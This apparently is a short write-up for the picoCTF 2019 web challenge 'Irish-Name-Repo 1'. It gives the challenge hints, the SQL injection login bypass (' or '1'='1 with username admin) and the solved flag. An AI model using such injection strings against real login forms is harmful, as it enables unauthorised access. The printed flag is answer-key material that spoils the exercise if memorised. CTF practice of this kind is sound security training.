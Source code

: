 # AUR

Irish-Name-Repo 1 - Points: 300 - (Solves: 46)Web Exploitation - Unsolved
Solve
Hints
There is a website running at https://2019shell1.picoctf.com/problem/4162/ (link). Do you think you can log us in? Try to see if you can login!
There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?
Try to think about how does the website verify your login?

***

Click log in

admin
' or '1'='1

https://2019shell1.picoctf.com/problem/4162/login.php


picoCTF{s0m3_SQL_7db6aa99}

